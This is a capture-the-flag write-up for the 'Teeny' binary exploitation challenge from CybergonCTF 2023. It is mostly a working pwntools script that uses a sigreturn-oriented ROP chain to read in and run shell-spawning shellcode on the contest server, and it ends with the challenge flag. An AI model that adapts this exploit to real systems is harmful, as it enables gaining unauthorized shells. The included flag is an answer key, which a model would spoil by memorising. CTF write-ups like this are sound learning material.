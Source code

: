 # Pwn


## Teeny

Small enough to be powerfull.

Flag Format : CybergonCTF{.+}

https://cdn.discordapp.com/attachments/758115188796162088/1142987852574117978/teeny

---

### Solution

```python
from pwn import *
# local
    # elf=context.binary=ELF("./teeny")
    # p=process("./teeny")
context.arch = 'amd64'
context.os = 'linux'

p = remote("cybergon2023.webhop.me", 5004)

flame=SigreturnFrame()
flame.rax=0x0
flame.rdi=0x0
flame.rsi=0x00040017
flame.rdx=0x500
flame.rip=0x00040015
flame.rsp=0x00040100

payload=p64(0)
payload+=p64(0x00040018) # pop rax; ret;
payload+=p64(0xf)
payload+=p64(0x00040015) # syscall
payload+=bytes(flame)

p.sendline(payload)
shellcode=asm(shellcraft.sh())
p.sendline(shellcode)
p.interactive()
```

After we got the shell, use ls and cat the flag file

CybergonCTF{5UD0_R0P_ch41n}